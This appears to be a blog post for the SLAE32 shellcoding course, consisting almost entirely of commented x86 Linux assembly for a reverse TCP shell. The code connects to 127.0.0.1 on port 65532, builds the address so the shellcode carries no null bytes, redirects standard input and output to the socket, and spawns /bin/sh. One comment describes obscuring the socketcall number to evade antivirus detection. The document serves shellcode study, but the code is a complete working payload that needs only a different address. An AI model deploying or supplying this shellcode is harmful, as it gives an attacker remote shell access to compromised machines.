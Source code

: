 ```yaml
---
layout: post
title:  SLAE32 Assignment 2 extramile - revshell with 127.0.0.1
excerpt: a little extramile for assignment 2: i'm using a remote address that contain null bytes
---
```

    ; name     : tcprevshell
    ; author     : Sandro "guly" Zaccarini SLAE-1037
    ; purpose    : the program will create a new connection to a given ip/port and present a shell to it
    ;            as extramile, i'm using an address with known nullbytes: 127.0.0.1
    ;            this code has been written for SLAE32 assignment 2
    ; references : https://syscalls.kernelgrok.com/ , /usr/include/linux/net.h , man socketcall
    ; license    : CC-BY-NC-SA
    ;
    ; high level flow:
    ; socket -> connect -> dup fd -> spawn /bin//sh
    ;
    ; i'll use different function name to keep it more readable. mostly, function are never called and are used just as "anchor for the human eyes"
    
    global _start
    
    section .text
    
    ; dummy function used to break easily on gdb while debugging, just rets without touching anything
    ; i used to place a call trap and recompile, while having a "b trap" on ~/.gdbinit
    trap:
    ret
    
    zero:
    ; zero eax and ebx by xoring against themself
    xor eax,eax
    xor ebx,ebx
    ret
    
    socketcall2eax:
    ; place syscall code for socketcall in eax, which is 0x66, no need to zero because i use mov.
    ; i'm using add to avoid hardcoded 0x66 call, which could be trapped by some AV, when 0x33 is the call acct and looks harmless to me
    mov al,0x33
    add al,0x33
    ret
    
    ; main code starts here
    _start:
    ; start by zeroing eax,ebx. not really needed because registers are clean, but better safe than sorry
    call zero
    
    createsocket:
    ; ----------------------------------------------------------------------------------------
    ; purpose     : create a socket
    ; references  : man socket
    ; description :
    ; socketcall is the syscall used to work with socket. i'm going to use this syscall to create and connect
    ; the very first thing i have to do, is to create the socket itself. by reading references, i see that she needs 3 registers:
    ; eax => syscall id 0x66 for socketcall, that will be the same for every socketcall call of course and that's why i created a function on top
    ; ebx => socket call id, that is 0x1 for socket creation
    ; ecx => pointer to socket args
    ;
    ; man socket shows me that socket's args are:
    ; domain   => AF_INET because i'm creating a inet socket, and is 0x2
    ; type     => tcp is referenced as STREAM, that is 0x1
    ; protocol => unneded here because there is no inner protocol, so i'll use 0x0
    
    ; not, i'm creating ecx because a zeroed eax is perfect for the purpose
    ; arg will be pushed in reverse order with no hardcoded address: 0, 1, 2
    push eax
    inc eax
    push eax
    inc eax
    push eax
    
    ; because socketcall needs a pointer, i'm moving esp address to ecx
    mov ecx,esp
    
    ; prepare eax to hold the socketcall value as discussed before
    call socketcall2eax
    
    ; because ebx is 0, i can just inc to have it to 1 for socketcall to call socket (pun intended :) )
    inc ebx
    
    ; do the call and create socket
    int 0x80
    
    ; because syscall rets to eax, if everything's good, eax will hold socket file descriptor: save it to esi to have it safe for the whole run
    mov esi,eax
    
    connect:
    ; ----------------------------------------------------------------------------------------
    ; purpose     : connect to raddr:rport
    ; references  : man connect , man 7 ip
    ; description :
    ; eax => syscall id 0x66 for socketcall
    ; ebx => connect call id, 0x3 taken from linux/net.h
    ; ecx => pointer to address struct
    ;
    ; man connect shows me that args are:
    ; sockfd  => already saved in esi
    ; address => pointer to ip struct
    ; addrlen => addrlen is 32bit (0x10)
    ;
    ; man 7 ip shows address struct details. arguments are:
    ; family => AF_INET, so 0x2
    ; port   => held by rport from .data
    ; addr   => 127.0.0.1
    
    ; again, better safe than sorry
    call zero
    
    ; push arg in reverse and move the pointer to ecx
    ; prepare stack pointer to addr struct defined in man 7 ip
    ; as exercise, i'm going to use 127.0.0.1 as remote address, because it contains null bytes
    ; hex value of 127.0.0.1 is 0x0100007f
    ; pushing 0x00000000 to esp by using a known null register. i've also could used sub esp,0x8 because i have enough room
    push eax
    mov byte [esp], 0x7f
    ; now esp is: 0x0000007f
    mov byte [esp+3],0x01
    ; now esp is: 0x0100007f
    
    ; push port to bind to, defined in .data. pushed as word.
    push word rport
    ; push AF_INET value as word again
    push word 0x2
    ; get stack pointer to ecx
    mov ecx,esp
    
    ; push arg, again in reverse order
    ; addrlen is fixed to 16, or 0x10
    push byte 0x10
    ; pointer to addr struct
    push ecx
    ; sockfd, saved before to esi
    push esi
    ; stack pointer to ecx again, to feed bind socketcall
    mov ecx,esp
    
    ; ebx has been zeroed, mov 0x3 to him
    mov bl,0x3
    
    ; same call to have 0x66 to eax and do socketcall
    call socketcall2eax
    
    ; do the call
    int 0x80
    
    dupfd:
    ; ----------------------------------------------------------------------------------------
    ; purpose     : create fd used by /bin//sh
    ; references  : man dup2
    ; description : every shell has three file descriptor: STDIN(0), STDOUT(1), STDERR(2)
    ; this code will create said fd
    ; eax => 0x3f got from kernelgrok website
    ; ebx => clientid
    ; ecx => newfd id, said file descriptor
    ;
    ; i'm going to create them by looping using ecx, to save some instruction. ecx will start at 2, then is dec and fd is created.
    ; as soon as ecx is 0, the loop ends
    
    
    ; i'm using a different method from one i've used for bindshell just to try.
    ; i'll put 0x3 to ecx to start creating STDERR just after dec
    ; ecx is dirty but edx is 0x0, just swap them
    xchg ecx,edx
    mov cl,0x3
    
    ; copy socket fd to ebx to feed clientid
    mov ebx,esi
    
    ; zero eax and start the loop
    xor eax,eax
    dup2:
    ; dup2 call id
    mov al,0x3f
    
    ; dec ecx to have 2,1,0
    dec ecx
    int 0x80
    ; loop until ecx is 0x0, we then have 3 runs: with 2, 1, 0 values
    jnz dup2
    
    spawnshell:
    ; ----------------------------------------------------------------------------------------
    ; purpose     : spawn /bin//sh
    ; references  : man execve
    ; description : put /bin//sh on the stack, aligned to 8 bytes to prevent 0x00 in the shellcode itself
    ; and null terminating it by pushing a zeroed register at first
    ; eax => execve call, 0xB
    ; ebx => pointer to executed string, which will be /bin//sh null terminated
    ; ecx => pointer to args to executed command, that could be 0x0
    ; edx => pointer to environment, which could be 0x0
    ;
    ; i need to push a null byte to terminate the string, easiest way is to zero a reg and push it but i know ecx is 0x0 so i can save one op
    push ecx
    push 0x68732f2f
    push 0x6e69622f
    ; here the stack will looks like a null terminated /bin/sh:
    ; /bin//sh\0\0\0\0\0\0\0\0
    
    ; and place pointer to ebx
    mov ebx,esp
    
    ; envp to edx and ecx
    push ecx
    mov edx,esp
    push ecx
    mov ecx,esp
    
    ; execve syscall here
    mov al,0xB
    
    ; and pop shell
    int 0x80
    
     _end:
    ; neat exit
    xor eax,eax
    mov al,0x1
    int 0x80
    
    section .data
    ; 65532 converted in hex, then little endian
    rport equ 0xFCFF
